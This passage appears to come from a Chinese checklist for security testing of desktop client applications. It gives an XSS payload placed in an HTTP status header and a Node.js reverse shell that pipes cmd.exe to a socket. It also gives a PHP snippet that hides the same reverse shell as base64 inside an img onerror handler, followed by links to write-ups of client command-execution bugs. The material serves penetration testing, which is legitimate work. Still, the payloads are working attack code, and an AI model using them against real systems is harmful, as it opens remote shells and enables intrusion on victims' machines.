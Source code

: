 `header('HTTP/1.1 500 <img src=# onerror=alertx>');`

![cs18](https://github.com/theLSA/cs-checklist/raw/master/demo/cs18.png)

Win+node.js:

成功

`var net = require("net"), sh = require("child_process").exec("cmd.exe");`

`var client = new net.Socket();`

`client.connect(6677, "127.0.0.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);`

`sh.stderr.pipe(client);});`

 

`<?php`

`header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCg2Njc3LCAiMTI3LjAuMC4xIiwgZnVuY3Rpb24oKXtjbGllbnQucGlwZShzaC5zdGRpbik7c2guc3Rkb3V0LnBpcGUoY2xpZW50KTsKc2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");`

`?>`

![cs19](https://github.com/theLSA/cs-checklist/raw/master/demo/cs19.png)

相关参考

https://www.anquanke.com/post/id/176379

<br/> 

#### **命令执行**
<br/>
案例0-印象笔记windows客户端6.15本地文件读取和远程命令执行 

[http://blog.knownsec.com/2018/11/%E5%8D%B0%E8%B1%A1%E7%AC%94%E8%AE%B0-windows-%E5%AE%A2%E6%88%B7%E7%AB%AF-6-15-%E6%9C%AC%E5%9C%B0%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E5%92%8C%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/](http://blog.knownsec.com/2018/11/印象笔记-windows-客户端-6-15-本地文件读取和远程命令执行/)

<br/> 

案例1-某云pc客户端命令执行挖掘过程 

https://www.secpulse.com/archives/53852.html

<br/> 

案例2-金山WPS Mail邮件客户端远程命令执行漏洞(Mozilla系XUL程序利用技巧) 

https://shuimugan.com/bug/view?bug_no=193117

<br/> 

#### **逻辑缺陷**

测试点同web。

<br/>  
